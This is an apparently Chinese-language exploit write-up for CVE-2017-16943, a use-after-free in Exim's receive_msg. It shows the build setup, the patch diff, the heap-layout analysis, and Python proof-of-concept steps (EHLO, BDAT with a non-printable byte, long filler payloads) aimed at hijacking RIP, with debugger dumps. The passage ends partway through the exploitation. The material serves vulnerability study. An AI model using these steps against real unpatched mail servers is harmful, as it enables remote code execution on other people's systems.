


# CVE-2017-16943

## 环境搭建
````shell
git clone https://github.com/Exim/exim.git
git checkout 01c594601670c7e48e676d6c6d32d0f0084067fa
cd ./exim/src
mkdir Local
wget "https://bugs.exim.org/attachment.cgi?id=1051" -O Makefile
````
修改Makefile中的路径变量和用户名
````shell
cd ..
make -j8
sudo make install
````
安装完后将configure中的accept hosts = : 修改成 accept hosts = *
运行:
````shell
exim -bdf -d-receive
````

## 漏洞分析
该漏洞是一个UAF, 该漏洞发生在receive.c里面的receive_msg函数中，该函数用于接收来自client的输入。查看patch记录:
```diff
 src/src/receive.c | 7 ++++---
 1 file changed, 4 insertions(+), 3 deletions(-)

diff --git a/src/src/receive.c b/src/src/receive.c
index e7e518a..d9b5001 100644
--- a/src/src/receive.c
+++ b/src/src/receive.c
@@ -1810,8 +1810,8 @@ for (;;)
   (and sometimes lunatic messages can have ones that are 100s of K long) we
   call store_release() for strings that have been copied - if the string is at
   the start of a block (and therefore the only thing in it, because we aren't
-  doing any other gets), the block gets freed. We can only do this because we
-  know there are no other calls to store_get() going on. */
+  doing any other gets), the block gets freed. We can only do this release if
+  there were no allocations since the once that we want to free. */
 
   if (ptr >= header_size - 4)
     {
@@ -1820,9 +1820,10 @@ for (;;)
     header_size *= 2;
     if (!store_extend(next->text, oldsize, header_size))
       {
+      BOOL release_ok = store_last_get[store_pool] == next->text;
       uschar *newtext = store_get(header_size);
       memcpy(newtext, next->text, ptr);
-      store_release(next->text);
+      if (release_ok) store_release(next->text);
       next->text = newtext;
       }
     }
```
这里先明确几个全局变量的作用:
````shell
current_block: 当前的storeblock，下次使用store_get_3的时候优先从该storeblock寻找空闲区域
next_yield:指向current_block中空闲区块的起始地址，storeblock一般来说是上半部分被使用，下半部分空闲
yield_length:next_yield的长度
````
通过分析meh的poc可以知道未patch的程序通过以下的堆布局过程可以触发uaf:
首先在receive_msg函数中，使next->text成为一个storeblock的起始buffer:

然后通过bdat命令在该text下面申请一段buffer
为什么使用bdat命令呢？
其实auth plain或者不可见字符组成的非法命令都可以在text下面申请一段buffer,但是其他指令会使得receive_msg函数退出
再次进入receive_msg后，next->text会指到别的区域，所以漏洞无法触发
而bdat命令不会使当前的receive_msg函数退出，这一点非常重要

然后不断地发送字符，将next_text填满（初始为0x100)，然后程序就会执行到漏洞点
在store_extend中发现由于bdat buffer的存在导致无法extend，所以执行store_get得到了next_yield指向的区域，然后调用store_release函数
在该函数中只检查了release的参数是否为一个storeblock的开头，但是没有检查其后面有没有其它buffer，就直接将storeblock释放了，这样就造成了uaf

## RIP劫持
这里结合poc代码一步步讲解如何劫持rip
````python
ehlo('test')
r.sendline("MAIL FROM:<test@localhost>")
r.recvline()
r.sendline("RCPT TO:<test@localhost>")
r.recvline()
unrec('a'*0x1100+'\x7f')
````
首先发送一堆数据，该目的是为了使得yield_length小于0x130，但是大于0x30
为什么需要这样呢？我们看看receive_msg函数的开头:
````c
...
File: receive.c
1700: received_header = header_list = header_last = store_get(sizeof(header_line));
1701: header_list->next = NULL;
1702: header_list->type = htype_old;
1703: header_list->text = NULL;
1704: header_list->slen = 0;
1705: 
1706: /* Control block for the next header to be read. */
1707: 
1708: next = store_get(sizeof(header_line));
1709: next->text = store_get(header_size);
...
````
可以发现在申请next->text之前申请了两个sizeof(header_line)大小的buffer，这个大小是0x18
所以如果在分配出这两个0x18大小的块以后剩下的大小yield_length小于0x100，
那么在申请next->text的时候store_get里面会申请一个新的storeblock，并且next->text在该storeblock的开头

然后我们调用bdat命令
````python
r.sendline('BDAT 1')
r.sendline(':BDAT \xdd')
````
该命令里面包含一个不可见字符就会调用store_get申请一段buffer用于储存错误信息:
````shell
pwndbg> hexdump 0x71d0e0 
+0000 0x71d0e0  42 44 41 54  20 5c 33 33  35 00 20 63  68 75 6e 6b  │BDAT│.\33│5..c│hunk│
+0010 0x71d0f0  35 30 31 20  6d 69 73 73  69 6e 67 20  73 69 7a 65  │501.│miss│ing.│size│
+0020 0x71d100  20 66 6f 72  20 42 44 41  54 20 63 6f  6d 6d 61 6e  │.for│.BDA│T.co│mman│
+0030 0x71d110  64 0a 00 00  00 00 00 00  00 00 00 00  00 00 00 00  │d...│....│....│....│
````
（包括非法指令里面如果包含不可见字符也会导致额外的堆块申请）

这时候不断地发送字符:
````python
unrec('a'*6 + p64(0xdeadbeef)*(0x1e00/8))
````
这时候就会逐字节往next->text里面填入接收到的字符，当0x100的空闲区域填充满后，就会运行到漏洞代码来扩展next->text的大小
首先进入store_extend(next->text, oldsize, header_size)尝试直接扩展大小:
````c
File: store.c
266: BOOL
267: store_extend_3(void *ptr, int oldsize, int newsize, const char *filename,
268:   int linenumber)
269: {
270: int inc = newsize - oldsize;
271: int rounded_oldsize = oldsize;
272: 
273: if (rounded_oldsize % alignment != 0)
274:   rounded_oldsize += alignment - (rounded_oldsize % alignment);
275: 
276: if (CS ptr + rounded_oldsize != CS (next_yield[store_pool]) ||
277:     inc > yield_length[store_pool] + rounded_oldsize - oldsize)
278:   return FALSE;
...
````
主要的判断在276~277行
第一个条件用于判断想到扩展的指针ptr后面是不是紧接着next_yield
第二个条件用于判断加上next_yield的大小(即yield_length)是否足够
显然第一个条件就不满足，因为next->text后面跟了一个bdat buffer, 再后面才是next_yield

然后进入store_get申请一个新的块，分配到了next_yield
接着调用store_release释放原来的next_text，注意这里的判断逻辑：
````c
File: store.c
448: void
449: store_release_3(void *block, const char *filename, int linenumber)
450: {
451: storeblock *b;
452: 
453: /* It will never be the first block, so no need to check that. */
454: 
455: for (b = chainbase[store_pool]; b != NULL; b = b->next)
456:   {
457:   storeblock *bb = b->next;
458:   if (bb != NULL && CS block == CS bb + ALIGNED_SIZEOF_STOREBLOCK)
459:     {
...
482:     free(bb);
483:     return;
484:     }
485:   }
486: }
487: 

````
程序从chainbase沿着storeblock的next指针一直往下寻找，如果发现被释放的block位于某个storeblock的开头（455行第二个条件）
那么这个storeblock就会被free
但是此时current_block是指向这个堆块的，并且新的next_text也在这个堆块内部，所以会发生UAF
堆块释放后current_block被放入unsortedbin:
````shell
pwndbg> tel &current_block
00:0000│   0x6e8ec0 (current_block) —▸ 0x71cfd0 —▸ 0x7ffff69abb78 (main_arena+88) —▸ 0x725020 ◂— 0x0
01:0008│   0x6e8ec8 (current_block+8) —▸ 0x723010 ◂— 0x0
02:0010│   0x6e8ed0 (current_block+16) ◂— 0x0
... ↓
04:0020│   0x6e8ee0 (chainbase) —▸ 0x70ff80 ◂— 0x0
05:0028│   0x6e8ee8 (chainbase+8) —▸ 0x6f3b30 —▸ 0x6f8cb0 —▸ 0x71eff0 —▸ 0x723010 ◂— ...
06:0030│   0x6e8ef0 (chainbase+16) ◂— 0x0
... ↓
pwndbg> 
````
这时候main_arena被加入到了storeblock链中

随着字符的不断输入，原先的next->text不断地调用store_extend扩展大小
最后无法扩展的时候，再次进入store_get获取新的堆块:

